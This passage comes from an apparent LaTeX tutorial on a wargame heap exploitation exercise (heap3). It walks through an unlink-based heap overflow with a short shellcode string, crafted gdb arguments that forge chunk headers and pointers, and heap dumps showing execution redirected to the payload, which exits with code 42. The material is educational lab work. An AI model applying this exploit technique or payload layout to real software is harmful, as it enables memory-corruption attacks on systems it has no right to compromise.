 TODO: add a shellcode section?

\begin{lstlisting}
"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"
\end{lstlisting}

The large stream of \texttt{0x90} bytes is simply so we can be sure our short jump
will indeed jump over the corruption from \texttt{unlink}. We'll wind up having
more bytes here than strictly necessary, but we're still well within the limits on
our chunk. Also, since this is 24 bytes long, and we'll pad with 4 bytes in the beginning,
we'll pad with 4 bytes on the end of this to satisfy filling chunk \texttt{c} with
32 bytes (24 + 4 + 4 = 32). Alright, let's set up this last portion of our
buffer and try it out.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\x04\xc0\x04\x08"+"\x50\xf7\xff\xbf"+"\x5c\xc0\x04\x08")'` `python -c 'print("\xf0"*4+"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"+"\x90"*4)'`
Breakpoint 1, main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24      heap3/heap3.c: No such file or directory.
        in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0x41414141      0xfffffffc      0xfffffffc
0x804c030:      0x0804c004      0xbffff750      0x0804c05c      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0xf0f0f0f0      0x90900ceb
0x804c060:      0x90909090      0x90909090      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.

Breakpoint 2, main (argc=4, argv=0xbffff804) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x90900ceb
0x804c060:      0x90909090      0xbffff750      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.
dynamite failed?

Program exited with code 052.
(gdb) print 052
$1 = 42
\end{lstlisting}

